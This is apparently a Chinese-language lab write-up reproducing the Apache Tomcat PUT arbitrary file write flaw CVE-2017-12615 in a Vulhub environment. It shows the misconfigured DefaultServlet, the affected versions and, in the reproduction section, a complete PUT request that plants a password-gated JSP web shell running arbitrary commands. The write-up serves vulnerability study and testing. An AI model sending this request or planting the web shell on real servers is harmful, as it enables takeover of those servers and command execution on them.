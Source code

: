 # Apache Tomcat PUT方法任意写文件漏洞 CVE-2017-12615

## 漏洞描述

参考：

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件：

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

虽然Tomcat对文件后缀有一定检测（不能直接写jsp），但我们使用一些文件系统的特性（如Linux下可用`/`）来绕过了限制。

## 漏洞影响

```
Apache Tomcat 7.0.0-7.0.81（默认配置）
```

## 环境搭建

Vulhub启动Tomcat 8.5.19环境：

```
docker-compose build
docker-compose up -d
```

运行完成后访问`http://your-ip:8080`即可看到Tomcat的Example页面。

## 漏洞复现

直接发送以下数据包即可在Web根目录写入shell：

```
PUT /2.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<% if("poc".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b,0,a));
        }
        out.print("</pre>");
    }
%>
```

如下：

![image-20220302155053358](images/202203021550397.png)